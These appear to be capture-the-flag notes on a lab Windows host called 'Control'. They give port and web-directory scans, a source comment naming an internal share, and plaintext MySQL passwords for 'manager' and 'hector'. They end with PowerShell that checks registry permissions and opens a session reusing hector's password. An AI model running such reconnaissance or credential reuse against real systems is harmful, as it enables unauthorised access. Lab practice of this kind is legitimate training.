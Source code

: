 IP: 10.10.10.167

Nmap (nmap -sC -sV -Pn 10.10.10.167)
```bash
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-title: Fidelity
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc   Microsoft Windows RPC
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '10.10.14.10' is not allowed to connect to this MariaDB server

```

Nmap (nmap -p- 10.10.10.167)
```bash
80/tcp    open  http
135/tcp   open  msrpc
3306/tcp  open  mysql
49666/tcp open  unknown
49667/tcp open  unknown
```

ffuf (ffuf -u 'http://10.10.10.167/FUZZ' -w raft-large-words.txt -e .php,.txt)
```bash
images                  [Status: 301, Size: 150, Words: 9, Lines: 2]                                               [2/131]
admin.php               [Status: 200, Size: 89, Words: 15, Lines: 1]                                                      
index.php               [Status: 200, Size: 3145, Words: 157, Lines: 89]                                                  
LICENSE.txt             [Status: 200, Size: 17128, Words: 2798, Lines: 64]
uploads                 [Status: 301, Size: 151, Words: 9, Lines: 2]
assets                  [Status: 301, Size: 150, Words: 9, Lines: 2]
about.php               [Status: 200, Size: 7867, Words: 529, Lines: 187]
database.php            [Status: 200, Size: 0, Words: 1, Lines: 1]
Admin.php               [Status: 200, Size: 89, Words: 15, Lines: 1]
Images                  [Status: 301, Size: 150, Words: 9, Lines: 2]
.                       [Status: 200, Size: 3145, Words: 157, Lines: 89]
license.txt             [Status: 200, Size: 17128, Words: 2798, Lines: 64]
ADMIN.php               [Status: 200, Size: 89, Words: 15, Lines: 1]
Assets                  [Status: 301, Size: 150, Words: 9, Lines: 2]
Uploads                 [Status: 301, Size: 151, Words: 9, Lines: 2]
About.php               [Status: 200, Size: 7867, Words: 529, Lines: 187]
Database.php            [Status: 200, Size: 0, Words: 1, Lines: 1]
Index.php               [Status: 200, Size: 3145, Words: 157, Lines: 89]
IMAGES                  [Status: 301, Size: 150, Words: 9, Lines: 2]
License.txt             [Status: 200, Size: 17128, Words: 2798, Lines: 64]
DataBase.php            [Status: 200, Size: 0, Words: 1, Lines: 1]
search_products.php     [Status: 200, Size: 88, Words: 15, Lines: 1]
ABOUT.php               [Status: 200, Size: 7867, Words: 529, Lines: 187]
UPLOADS                 [Status: 301, Size: 151, Words: 9, Lines: 2]
ASSETS                  [Status: 301, Size: 150, Words: 9, Lines: 2]
INDEX.php               [Status: 200, Size: 3145, Words: 157, Lines: 89]
DATABASE.php            [Status: 200, Size: 0, Words: 1, Lines: 1]
AdMin.php               [Status: 200, Size: 89, Words: 15, Lines: 1]
UpLoads                 [Status: 301, Size: 151, Words: 9, Lines: 2]
admiN.php               [Status: 200, Size: 89, Words: 15, Lines: 1]
```

index.php interesting sourcecode comment:
```
<!-- To Do:
			- Import Products
			- Link to new payment system
			- Enable SSL (Certificates location \\192.168.4.28\myfiles)
<!-- Header -->
```

Mysql password for manager@localhost:
manager : l3tm3!n
hector : l33th4x0rhector

Paths:
```
C:\Program Files\MariaDB 10.4\

```

get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list

WpnU
ws2i
WSea

$username = "CONTROL\hector"
$password = convertto-securestring -asplaintext -force "l33th4x0rhector"
$credentials = new-object system.management.automation.pscredential $username,$password
enter-pssession -computername localhost -credential $credentials